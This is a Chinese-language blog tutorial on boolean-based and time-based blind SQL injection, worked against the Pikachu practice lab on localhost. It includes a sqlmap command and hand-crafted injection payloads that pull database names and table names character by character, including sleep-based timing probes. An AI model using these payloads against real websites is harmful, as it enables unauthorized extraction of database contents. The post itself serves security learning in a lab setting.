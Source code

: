 ```yaml
---
layout: post
title: "布尔盲注和时间盲注"
date:   2024-9-29
tags: [SQL注入, CTF, WEB]
comments: true
author: MK-KM1542
---
```


什么是盲注

在有些情况下，后台使用了错误消息屏蔽方法屏蔽了报错
此时**无法在根据报错信息来进行注入的判断**
根据表现形式的不同，盲注又分为

* **`based boolean`  基于布尔盲注**
* **`based time`  基于时间盲注**

建议使用sqlmap来进行注入

```batch
python sqlmap.py -u "http://127.0.0.1/pikachu/vul/sqli/sqli_blind_b.php?name=1&submit=%E6%9F%A5%E8%AF%A2" --dbs
```

手动注入非常麻烦，后面原理不想看的可以不看

## **`based boolean`  基于布尔盲注**

布尔型Boolean只有两个值，`true`/`false`

~~😅这布尔翻译的什么逼名称，信达雅没一个对上的，直接音译还要译者干什么~~

### 特征

0. 没有报错信息
1. 不管是正确的输入，还是错误的输入，都**只显示两种情况** (我们可以认为是0或者1)
2. 在正确的输入下，输入`and 1=1`/`and 1=2`发现可以判断 (`1=1`为真，`1=2`为假)

已知输入正确回复你答对了，输入错误回复你答错了，现在来攻破这个数据库吧！🤓

```sql
# 正确输入:                 # 回显：
kobe' and 1=1 #            # your uid:3
                           # your email is: kobe@pikachu.com

# 错误输入                  # 回显：
kobe' and 1=2 #            # 您输入的username不存在，请重新输入！
```

### 小知识

#### sql: `substr`函数用法

##### **`substr(str,pos,len)`**

从`pos`开始的位置，截取`len`个字符

```sql
substr(string ,1,3) 
# 结果为： str

substr(string, -1,3) 
# 取string右边第1位置起，3字长的字符串。显然右边第一位置起往右不够3字长。
# 结果只能是： g

substr(string, -3,3)
# 取string右边第3位置起，3字长的字符串。
# 结果为: ing
```

##### **`substr(str,pos)`**

`pos`开始的位置，一直截取到最后

```sql
substr(string ,4) 
# 从右第4位置截取到最后
# 结果是： ing
```

#### sql: `length`函数用法

##### **`length(str)`**

计算单位：字节
一个数字或字母一个字节

* utf8编码：一个汉字三个字节
* gbk编码：一个汉字两个字节

```sql
select length('123456百度');
# utf8:12
# gbk:10
```

#### sql: `char_length`函数用法

计算单位：字符
不管汉字还是数字或者是字母都算是**一个字符**

```sql
select char_length('123456百度');
# 返回值:8
```

**通过`length()<>char_length()`可以用来检验是否含有中文字符**

### 实操

#### 通过不断比较判断数据库名的长度

```sql
# database名是root，长度为4
# 构造命令
select length(database())>5;
# 返回0
select length(database())<5;
# 返回1
select length(database())=5;
# 返回1
```

```sql
# 构造payload
kobe' and length(database())=4 # 注意比较
```

数据库名的长度比出来了

#### 通过ascii码比较判断数据库名的字符

```sql
# 构造命令
select ascii(substr(database(),1,1))>113 # 注意比较
```

```sql
# 构造payload
kobe' and ascii(substr(database(),1,1))>113 # 注意比较
```

数据库名的字符的ascii码一个个比出来了

#### 更进一步

```sql
select table_name from information_schema.tables where table_schema=database() limit 0,1
# 返回当前数据库的第一个表名
```

用上面这个命令替换database()函数

```sql
kobe' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>113 # 注意比较
# >113返回0，<113返回1，慢慢比吧
```

## **`based time`  基于时间盲注**

### 特征

只有一种回显，无法判断是否正确,被数据库冷暴力了😭

### 实操

**通过`sleep()`函数延时**，判断是否注入成功
按下浏览器F12，查看网络模块，有一个时间列表，这个就是响应时间

```sql
# payload
kobe' and sleep(5) #
# sqli_blind_t.php?name=kobe%27+and+sleep%285%29+%23&submit=%E6%9F%A5%E8%AF%A2 200 document 其他 34.1 kB 5.02 秒
```

可以看到，响应时间5.02 秒，说明注入成功

```sql
# payload
kobe' and if((substr(database(),1,1))='r',sleep(5),null)#
```

和布尔盲注一样，替换database()函数，慢慢比吧
